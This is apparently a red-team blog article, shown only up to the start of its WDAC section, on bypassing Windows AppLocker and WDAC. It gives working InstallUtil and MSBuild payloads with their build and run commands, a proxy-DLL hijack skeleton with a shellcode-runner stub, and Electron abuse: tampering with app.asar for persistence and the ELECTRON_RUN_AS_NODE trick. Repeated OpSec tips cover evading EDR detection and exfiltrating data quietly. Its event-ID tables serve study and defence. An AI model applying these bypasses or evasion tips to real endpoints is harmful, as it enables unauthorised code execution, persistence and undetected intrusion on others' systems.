









> **Lab disclaimer:** every technique below is for authorized red team engagements and defensive lab study. Test on systems you own or have written permission to assess. The defensive section at the end is the part you forward to your blue team.

> **OpSec scope.** This article is about application-control evasion: convincing AppLocker or WDAC to let your code run. EDR is a different, large problem that I'm deliberately not covering here. Specifically out of scope:
>
> - AMSI patching (`amsi.dll!AmsiScanBuffer` hooks, hardware-breakpoint AMSI, the COM interop AMSI provider).
> - ETW provider patching (`ntdll!EtwEventWrite`, `EtwEventRegister`, the `Microsoft-Windows-Threat-Intelligence` provider).
> - User-mode API unhooking, syscall stub generation, Hell's Gate / Halo's Gate / Tartarus' Gate.
> - Sleep mask, call-stack spoofing, indirect syscalls.
> - PowerShell ScriptBlock and Module logging evasion (event 4104 suppression, etc.).
>
> A real engagement chains both halves: pick an application-control bypass that gets you executing, pair it with EDR evasion in the same payload. Treat what follows as the application-control half of that pair, no more.

## I. Introduction

Application whitelisting flips the default Windows execution model on its head. Instead of "run anything that isn't blocked," an allowlist enforces "block everything that isn't explicitly allowed." It's the closest thing to default-deny that a Windows endpoint has, and it's a fixture in any environment regulated by PCI-DSS, HIPAA, or NIST 800-53 high-baseline.

Microsoft ships three controls that get conflated in conversation but solve different problems:

| Control | Layer | Trust source | Primary bypass class |
|---|---|---|---|
| **SmartScreen** | User-mode reputation check at download/run | Microsoft cloud reputation | Code signing, MOTW stripping, aged binaries |
| **AppLocker** | User-mode service (`appidsvc`) + driver (`appid.sys`) | GPO / local rules (path, hash, publisher) | Trusted system binaries (LOLBins) |
| **WDAC** | Kernel-mode enforcement via `CI.dll` | A signed XML policy (`SIPolicy.p7b`) enforced in the kernel | Signed-but-abusable binaries; signed-but-vulnerable kernel code |

### UMCI vs KMCI, a WDAC concept you cannot skip

WDAC is not one thing. It's the umbrella name for **two enforcement engines** that live inside `CI.dll`:

| Engine | What it polices | Off / Audit / Enforce |
|---|---|---|
| **UMCI** (User-Mode Code Integrity) | Every user-mode binary the kernel maps: `.exe`, `.dll`, `.ocx`, packaged apps, scripts via PowerShell CLM | All three states |
| **KMCI** (Kernel-Mode Code Integrity) | Every kernel module: `.sys` drivers and the loaded NT image | All three states |

You will encounter every combination of these in the field:

- **KMCI enforced, UMCI off**, the most common WDAC deployment. Drivers must be signed; user-mode is wide open (or just covered by AppLocker). This is the "stop random ransomware drivers and BYOVD from non-admins" posture.
- **KMCI enforced, UMCI audit**, preparing to roll out full UMCI; collecting events 3076 (would-have-blocked).
- **Both enforced**, the lockdown posture. PowerShell flips to ConstrainedLanguageMode automatically. Most public offensive tooling stops working.

This matters because **a "WDAC is on" datapoint is meaningless without knowing which engine is enforcing.** A box with KMCI=enforce but UMCI=off lets you do everything in this post short of loading an unsigned driver.

### A caveat that's missed constantly: AppLocker bypass ≠ EDR bypass

Most of the AppLocker bypasses you'll read about (`InstallUtil`, `MSBuild`, `regsvcs`, `regasm`, `MSHTA`) were novel in 2014–2018. **They are now front-and-center in every modern EDR's behavioral detection.** Triggering one means you bypassed the policy and the SOC immediately got a high-confidence alert.

A clean offensive plan splits two questions:

1. **Will the policy allow this to execute?** (AppLocker / WDAC's question)
2. **Will the EDR / SOC notice and alert?** (everyone else's question)

The rest of this post treats both. Each technique gets an OpSec note about how loud it is in 2026, not just whether it works.

### Scope

This post assumes:

- Local code execution as a standard user.
- Not local admin unless explicitly noted (BYOVD, supplemental policies).
- Some form of AppLocker or WDAC active, possibly both.

## II. Enumeration

Touching anything before you know the policy is how you get caught, every block writes an event. **Read first, write later.**



### A. AppLocker

`appidsvc` (user mode) + `appid.sys` (kernel filter). Rules live as XML under `HKLM\SOFTWARE\Policies\Microsoft\Windows\SrpV2`. Five rule collections: `Exe`, `Dll`, `Script`, `Msi`, `Appx`.

```powershell
Get-AppLockerPolicy -Effective -Xml | Out-File C:\Users\Public\applocker.xml
```

Trimmed sample output:

```xml
<AppLockerPolicy Version="1">
  <RuleCollection Type="Exe" EnforcementMode="Enabled">
    <FilePathRule Name="(Default) Program Files" Action="Allow" UserOrGroupSid="S-1-1-0">
      <Conditions><FilePathCondition Path="%PROGRAMFILES%\*"/></Conditions>
    </FilePathRule>
    <FilePublisherRule Name="Allow signed by ACME Corp" Action="Allow" ... />
  </RuleCollection>
  <RuleCollection Type="Dll" EnforcementMode="NotConfigured" />
  <RuleCollection Type="Script" EnforcementMode="Enabled">...</RuleCollection>
</AppLockerPolicy>
```

What to look for:

- `Dll` collection state, `NotConfigured` means DLL hijacking is wide open.
- Broad path wildcards over writable directories (`C:\Build\*`, `%TEMP%\*`).
- Publisher rules trusting an org-wide certificate (a pivot target).
- `AuditOnly` collections, you can probe safely.

### B. WDAC

```powershell
$dg = Get-CimInstance -ClassName Win32_DeviceGuard `
        -Namespace root\Microsoft\Windows\DeviceGuard
$dg | Format-List CodeIntegrityPolicyEnforcementStatus,
                  UsermodeCodeIntegrityPolicyEnforcementStatus,
                  SecurityServicesRunning, VirtualizationBasedSecurityStatus
```

Sample output on a hardened endpoint:

```text
CodeIntegrityPolicyEnforcementStatus              : 2     # KMCI: enforced
UsermodeCodeIntegrityPolicyEnforcementStatus      : 2     # UMCI: enforced
SecurityServicesRunning                           : {1, 2}  # 1=Credential Guard, 2=HVCI
VirtualizationBasedSecurityStatus                 : 2
```

Active policy files:

```text
C:\Windows\System32\CodeIntegrity\
  ├── SIPolicy.p7b                  # Single-policy mode
  └── CIPolicies\Active\*.cip       # Multi-policy mode, base + supplementals
```

```powershell
CiTool.exe --list-policies --json | ConvertFrom-Json |
    Select-Object FriendlyName, PolicyID, BasePolicyID, IsEnforced, IsAuthorized, IsSystemPolicy
```

Sample output:

```text
FriendlyName                          PolicyID            BasePolicyID        IsEnforced
Microsoft Windows Driver Policy       {d2bda982-...}      {d2bda982-...}      True
ACME Corp Production Allowlist        {a91cf2e1-...}      {a91cf2e1-...}      True
ACME Dev Workstation Supplemental     {7c3e0d2f-...}      {a91cf2e1-...}      True
```

The third row is a **supplemental policy** chained off the base. We'll come back to those, they're a critical and underused offensive surface.

PowerShell language mode is the canonical UMCI tripwire:

```powershell
$ExecutionContext.SessionState.LanguageMode
# ConstrainedLanguage  -> UMCI enforced for unsigned scripts
```

### C. Know what each engine logs

The single most important enumeration step before any bypass: **understand what event IDs you'll trigger if you guess wrong.**

| Source | Event ID | Channel | Meaning |
|---|---|---|---|
| AppLocker | 8002 | `Microsoft-Windows-AppLocker/EXE and DLL` | Allowed |
| AppLocker | **8003** | `…/EXE and DLL` | Allowed in audit mode (would have been blocked) |
| AppLocker | **8004** | `…/EXE and DLL` | **Blocked in enforce mode**, the high-confidence alert |
| AppLocker | 8005 | `…/MSI and Script` | Script/MSI allowed |
| AppLocker | 8006 | `…/MSI and Script` | Script/MSI audit |
| AppLocker | 8007 | `…/MSI and Script` | Script/MSI blocked |
| WDAC (CI) | 3033 | `Microsoft-Windows-CodeIntegrity/Operational` | Image failed signature verification |
| WDAC (CI) | 3034 | `…/CodeIntegrity` | Image unsigned, would not be loaded |
| WDAC (CI) | **3076** | `…/CodeIntegrity` | **Audit mode**: would have blocked |
| WDAC (CI) | **3077** | `…/CodeIntegrity` | **Enforce mode**: blocked |
| WDAC (CI) | 3089 | `…/CodeIntegrity` | Signature validation success |
| WDAC (CI) | **3099** | `…/CodeIntegrity` | **Policy options refreshed / new policy loaded** (your supplemental dropped!) |
| WDAC (CI) | 3100 | `…/CodeIntegrity` | Policy refresh failed |

A modern SOC subscribes to 8004 / 3077 / 3099 with the same urgency as a "credential dump" alert. Audit events (8003 / 3076) are noisier and often parsed for trend analysis rather than per-event alerting. **Picking an audit-only collection to probe inside is a real OpSec primitive.**

### D. Operational intelligence

Before doing anything, summarize the box:

| Question | Why it matters |
|---|---|
| Which user-writable directories are whitelisted? | Drop zone |
| Which publishers are trusted? | Cert theft / signing-infra pivot |
| Is a Managed Installer configured? | Sec. IV.A, anything those agents drop runs trusted |
| Is ISG enabled? | Sec. IV.B, file reputation becomes a trust input |
| Are there supplemental policies? | Sec. IV.C, your toehold for adding allow rules |
| UMCI / KMCI / HVCI state | Determines whether kernel attacks are realistic |
| CLM enforced? | Which PowerShell tradecraft works |

## III. AppLocker bypasses

The recurring theme: **AppLocker trusts processes, not behavior.** A whitelisted binary coerced into running attacker code is the entire genre.

### A. InstallUtil

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe`. Microsoft-signed, almost universally allowed. The `Uninstall()` method of any `[RunInstaller(true)]` class runs when invoked with `/U`, even when no install ever happened.

```csharp
// payload.cs
using System;
using System.Configuration.Install;
using System.ComponentModel;
using System.Diagnostics;

namespace InstallerBypass
{
    [RunInstaller(true)]
    public class PayloadInstaller : Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            Process.Start("cmd.exe", "/c whoami > C:\\Users\\Public\\proof.txt");
        }
    }
    public class Program { static void Main() { } }
}
```

```powershell
& "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe" `
    /target:exe /out:payload.exe `
    /reference:System.Configuration.Install.dll payload.cs

& "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe" `
    /logfile= /LogToConsole=false /U payload.exe
```



**OpSec in 2026:**

- **EDR detection is mature.** Sentinel-One, CrowdStrike, Defender for Endpoint, Elastic, all alert on `installutil.exe /U` with high confidence. Process lineage (`installutil.exe → cmd.exe / powershell.exe`) lights up behavioral analytics. Treat this as a *loud* technique you would only use when other options are gone.
- **WDAC:** on Microsoft's [recommended block rules](https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules). Many policies include the block list; many don't. Verify on target.
- **Failure conditions:** `.NET Framework 4 not installed`; AMSI hooked on the assembly load (some EDRs hook `AppDomain.Load` and scan); the policy explicitly denies the binary path.

### B. MSBuild

Microsoft-signed build engine. Inline tasks let you embed C# in a project file that compiles and runs **inside `MSBuild.exe`**, no separate binary on disk.

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Pwn"><Pwnage /></Target>
  <UsingTask TaskName="Pwnage" TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll">
    <ParameterGroup />
    <Task><Code Type="Class" Language="cs"><![CDATA[
      using System.Diagnostics;
      using Microsoft.Build.Framework;
      using Microsoft.Build.Utilities;
      public class Pwnage : Task, ITask {
        public override bool Execute() {
          Process.Start("cmd.exe", "/c whoami /all > C:\\Users\\Public\\proof.txt");
          return true;
        }
      }
    ]]></Code></Task>
  </UsingTask>
</Project>
```

```powershell
& "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" payload.xml
```

**OpSec in 2026:**

- **Loud.** Defender for Endpoint and CrowdStrike both ship out-of-the-box rules: "MSBuild executing project file from non-developer path," "MSBuild spawning shell," "MSBuild making outbound HTTPS." If your target is a dev workstation with active development happening, the noise floor may hide you. On a non-dev box, you light up immediately.
- **Failure conditions:** `Constrained Language Mode` doesn't break MSBuild but blocks PowerShell scaffolding that loads it; HIPS may block `Microsoft.Build.Tasks.v4.0.dll` reflection; AppLocker `Exe` rules may name `MSBuild.exe` in deny-overrides; ETW `Microsoft-Windows-DotNETRuntime` reports the JIT compile.
- **Field tweaks:** call from a UNC path the user already has open in the IDE; embed your project file inside an existing `.csproj` instead of dropping a standalone one.

### C. DLL hijacking

Most enterprise AppLocker policies leave the `Dll` collection `NotConfigured` because evaluating every `LoadLibrary` call is expensive. If a whitelisted EXE can be coaxed into loading your DLL, AppLocker has no opinion.

Search order with Safe DLL Search Mode (default):

| Order | Location |
|---|---|
| 1 | KnownDLLs |
| 2 | Application directory |
| 3 | `System32` |
| 4 | `Windows` |
| 5 | Current working directory |
| 6 | `%PATH%` |



Find candidates with [Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon):

```text
Process Name  contains  <whitelisted exe>     Include
Operation     is        CreateFile            Include
Path          ends with .dll                  Include
Result        is        NAME NOT FOUND        Include
```

Sample rows:

```text
12:01:02  acmebanker.exe   C:\Program Files\AcmeBank\msvcp140_app.dll   NAME NOT FOUND
12:01:02  acmebanker.exe   C:\Program Files\AcmeBank\helper32.dll       NAME NOT FOUND
12:01:02  acmebanker.exe   C:\Program Files\AcmeBank\dbghelp.dll        NAME NOT FOUND
```

Three flavors: **sideload** (drop alongside legit EXE), **phantom** (DLL never existed), **proxy** (stand in front of real DLL and forward exports).

```c
// hijack.c, proxy skeleton
#include <windows.h>
#pragma comment(linker, "/export:GetFileVersionInfoW=C:\\Windows\\System32\\version.GetFileVersionInfoW")
// ... one line per export

DWORD WINAPI Payload(LPVOID lp) { /* shellcode runner */ return 0; }

BOOL APIENTRY DllMain(HMODULE h, DWORD r, LPVOID _) {
  if (r == DLL_PROCESS_ATTACH) { DisableThreadLibraryCalls(h);
    CreateThread(NULL, 0, Payload, NULL, 0, NULL); }
  return TRUE;
}
```

| Tool | Purpose |
|---|---|
| Procmon | Live `NAME NOT FOUND` discovery |
| [Robber](https://github.com/MojtabaTajik/Robber) | Static EXE import analysis |
| [SharpDLLProxy](https://github.com/Flangvik/SharpDLLProxy) | Generate proxy `.def`/source |
| [Spartacus](https://github.com/Accenture/Spartacus) | Procmon-driven proxy generator |

**OpSec in 2026:**

- **Lower signal than InstallUtil/MSBuild** if the target EXE is the user's own legitimately-installed software, the DLL load looks like an upgrade or local patch. The high-signal patterns are unsigned DLL loaded from `%TEMP%` / `%APPDATA%` / user profile.
- **WDAC + DLL enforcement**: unsigned proxy DLLs blocked outright. Path narrows to "find a signed DLL that loads from a writable path."
- **Failure conditions:** AppLocker `Dll` collection actually configured; the EXE is `safe-DLL-search` opted-out via `SetDllDirectory`; modern Microsoft Office and signed apps increasingly check the DLL signature themselves (image hash + cert in `AppLockerSecurityAttributes`).

### D. Electron applications, the practical, low-signal AppLocker bypass

**Why this section is bigger than the others.** Electron is the modern equivalent of LOLBins, a class of trusted, allowlisted, ubiquitous applications that ship a complete code-execution runtime as a feature. In 2026, on most enterprise endpoints, an Electron-based bypass is the single least-noisy AppLocker path that does not require kernel work.

#### The threat model

Electron bundles **Chromium + Node.js**. Apps ship with the Node integration that gives renderer or main-process JavaScript full access to `child_process`, `fs`, `os`, `net`. Common installs:

| App | Install root | `app.asar` location |
|---|---|---|
| Slack | `%LOCALAPPDATA%\slack\app-<ver>\` | `resources\app.asar` |
| Teams (classic) | `%LOCALAPPDATA%\Microsoft\Teams\current\` | `resources\app.asar` |
| Teams (new) | `%LOCALAPPDATA%\Programs\teams\...` | `resources\app.asar` |
| VS Code | `%LOCALAPPDATA%\Programs\Microsoft VS Code\` or `Program Files` | `resources\app.asar` |
| Discord | `%LOCALAPPDATA%\Discord\app-<ver>\` | `resources\app.asar` |
| Obsidian | `%LOCALAPPDATA%\Programs\obsidian\` | `resources\app.asar` |

All signed by the vendor, all routinely allowlisted as "approved productivity software," all give you JS-in-a-trusted-process if you can get JS to run.

#### Vector 1, `--inspect` debug flag

Chromium's debugger flags often aren't stripped:

```powershell
& "$env:LOCALAPPDATA\slack\slack.exe" --inspect=9229
```

Output:

```text
Debugger listening on ws://127.0.0.1:9229/abc123def456...
For help, see: https://nodejs.org/en/docs/inspector
```

Connect via `chrome://inspect` in any local Chrome/Edge, click the target, run JS in the REPL inside the Slack process:

```javascript
require('child_process').exec('cmd.exe /c whoami', (e, out) => console.log(out));
```

#### Vector 2, ASAR tampering (the persistence play)

ASAR is essentially an uncompressed tar with an index. The `asar` npm package handles it.

```powershell
$asar = "$env:LOCALAPPDATA\slack\app-4.42.0\resources\app.asar"
npx --yes asar extract $asar app_src

# Inject into a renderer preload or the main entrypoint
Add-Content -Path .\app_src\dist\preload.js -Value @"
const { exec } = require('child_process');
exec('cmd.exe /c whoami > C:\\Users\\Public\\proof.txt');
"@

npx --yes asar pack app_src $asar
```

**Where to inject matters.** Modern Electron defaults are:

- `contextIsolation: true`, renderer JS can't directly `require`.
- `nodeIntegration: false`, renderer doesn't see Node.
- `sandbox: true`, renderer is sandboxed.

These push you to the **preload script** or the **main process** (`main.js` / `index.js` named in `package.json`'s `main`). The preload runs in a privileged isolated world with access to `require` regardless of renderer sandbox status. The main process always runs with full Node integration.

```text
app.asar contents (typical):
  package.json              <- "main": "src/main.js"
  src/
    main.js                 <- main process, ALWAYS Node-enabled
    preload/
      preload.js            <- runs in renderer before page scripts
      renderer.js           <- runs after; sandboxed in modern apps
```

Targeting `src/main.js` is the highest-yield choice. Inject early in the file, before app initialization. Slack and Teams in particular reload the asar on every launch, so persistence is "user opened Slack once", i.e., daily.

**Electron 22+ asar integrity.** Since Electron 22, `electron.exe` can validate `app.asar` against a signature ("asar integrity fuse"). When enabled, tampered asars refuse to launch. Workarounds:

- Many vendors **don't enable it** because shipping post-install patches becomes painful. Verify on the target.
- The integrity check can be disabled by rewriting the fuse byte in `electron.exe`, but that requires a write to the install directory, often user-owned for `%LOCALAPPDATA%` installs but `Program Files` for system installs.
- Some apps ship with the fuse on but the integrity hash list incomplete, partial tampering still works.

#### Vector 3, `ELECTRON_RUN_AS_NODE`

This environment variable turns the signed Electron binary into a bare Node interpreter, GUI never appears:

```powershell
$env:ELECTRON_RUN_AS_NODE = "1"
& "$env:LOCALAPPDATA\Programs\Microsoft VS Code\Code.exe" -e `
    "require('child_process').exec('cmd /c whoami > C:\\Users\\Public\\proof.txt')"
```

AppLocker sees `Code.exe` (Microsoft signature). WDAC sees `Code.exe` (Microsoft signature). Neither inspects `-e`'s argument. **In a default WDAC policy this still works**, `Code.exe` is a signed binary running normally as far as CI is concerned.

A subtle point: this also bypasses **PowerShell ConstrainedLanguageMode**. CLM applies to PowerShell. Node.js is not PowerShell. If you can land an Electron binary, you sidestep CLM entirely.

#### Vector 4, Custom `--app` / `--load-extension`

```powershell
& "$env:LOCALAPPDATA\Programs\some-electron-app\app.exe" --app="C:\Users\Public\evilapp"
```

Where the directory contains your own `package.json` + `main.js`. Whether this works depends on whether the binary strips `--app`. Many third-party Electron apps don't.

#### Vector 5, IPC / debugger reattachment

Slack and Discord expose unauthenticated `chrome.debugger`-style endpoints on localhost (the same `--inspect` mechanism, but auto-opened on certain crash scenarios). Discord's bug-bounty history has a string of reports here. Worth probing during enumeration: `netstat -ano | findstr ":9222 :9223 :9229 :9230"`.



**OpSec in 2026:**

- **Lowest signal of any AppLocker bypass on this list.** Most behavioral detections key off `cmd.exe` or `powershell.exe` as children. Spawn your post-exploitation from inside Node and skip cmd/PowerShell entirely (`require('child_process').execFile('rundll32.exe'...)` or, better, do the work in pure Node, file copy, registry via `winreg` package, HTTP exfil via `fetch`).
- **ASAR tampering leaves a file-mtime trace.** Defenders who baseline `app.asar` hashes will catch this; few do.
- **Failure conditions:** Electron 22+ asar integrity actually enforced; user-installed location is read-only; corporate proxy strips `--inspect` connections; EDR has app-specific rules (CrowdStrike has a "Slack spawned shell" detection for instance).

### E. Developer workstations, the trust glut

If your target is an engineer, the policy is almost certainly written to *let them work.* Allowed paths usually include:

- A repo root (`C:\src\`, `C:\dev\`, the user's `repos\`).
- Any directory `Visual Studio` or `JetBrains Toolbox` deploys to.
- Node, Python, Ruby, Go SDK directories.
- Self-hosted CI agent directories.

Each of these is a runtime that runs whatever its config file says.

| Surface | What you abuse | Why it works |
|---|---|---|
| **VS Code `tasks.json`** | A `.vscode/tasks.json` in any project specifies shell commands run when a task fires. Open a repo, hit `Ctrl+Shift+B`, your command runs. | The task spawns from `Code.exe`, a signed binary. The shell it spawns inherits whitelist if the path is allowed. |
| **VS Code extensions** | Extensions are JS that run in the extension host (a child Node process of `Code.exe`). | Same trust as ELECTRON_RUN_AS_NODE. Malicious extensions on the marketplace have happened (e.g., the `Material Theme` incident). |
| **npm scripts** | `package.json`'s `preinstall` / `postinstall` / `prepare` run shell commands on every `npm install`. | The `node.exe` parent is signed; the script is data. Dependency confusion + a `postinstall` is a classic supply chain primitive. |
| **Python venv activation** | `activate.bat` / `Activate.ps1` run when the user activates a venv. Modify them in a writable venv directory. | Runs as the user, looks like normal dev workflow. |
| **NuGet pre/post-build** | `.csproj` `<Target Name="BeforeBuild">` runs arbitrary `Exec` tasks during `dotnet build`. | Identical mechanism to MSBuild bypass, but the operator is the dev's own build. |
| **CI/CD self-hosted runners** | GitHub Actions and Jenkins self-hosted runners on enterprise infra often have signing certs, AD creds, and broad allowlist exceptions. Anyone who can land a PR can execute. | The runner service runs whatever workflow YAML says. |
| **Git hooks** | `.git/hooks/pre-commit`, `post-checkout` run on git operations. | Often overlooked in repo configuration policies. |

**OpSec:** these are the *quietest* options on a developer endpoint, because each step looks exactly like normal development. Detections in this space barely exist outside of mature shops. Failure conditions are mostly "the user doesn't actually use this workflow."

## IV. WDAC, the deep bench

User-mode tricks that work for AppLocker get blocked the moment UMCI sees an unsigned image. The WDAC surface narrows to four classes:

